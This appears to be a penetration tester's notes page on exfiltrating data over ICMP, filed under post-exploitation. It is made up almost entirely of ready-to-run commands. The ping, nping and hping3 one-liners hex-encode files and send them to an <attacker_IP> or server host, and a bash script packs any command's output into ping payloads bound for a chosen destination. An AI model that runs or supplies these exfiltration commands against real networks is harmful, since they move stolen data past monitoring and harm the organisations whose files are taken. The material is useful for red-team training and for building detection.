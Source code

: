 # Usage

## 01 - Living off the Land

```
$ tar zcf - file.txt | xxd -p -c 16 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done

$ tar zcf - file.txt | xxd -p -c 4 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done
```

## 02 - Nping

```
$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1
```

## 03 - Hping3

https://www.commandlinefu.com/commands/view/12851/sending-a-file-over-icmp-with-hping

```
# hping3 -I <interface> -9 <IP> -e MYSIG > confidential.txt
```

The sender

```
# hping3 <server_IP> --icmp --sign MSGID1 -d 50 -c 1 --file a_file
```

### Sending to `tcpdump`

https://secforge.io/blog/hping3

https://www.phoenixinfosec.com/post/data-exfiltration-with-hping3

```
# hping3 -1 -E file.txt -u -d 1500 <server_IP>
```

## 04 - Bash Script

```bash
#!/bin/bash

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

Usage

```
$ chmod +x icmp.sh

$ ./icmp.sh <IP> file.txt
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/ICMP/Server]]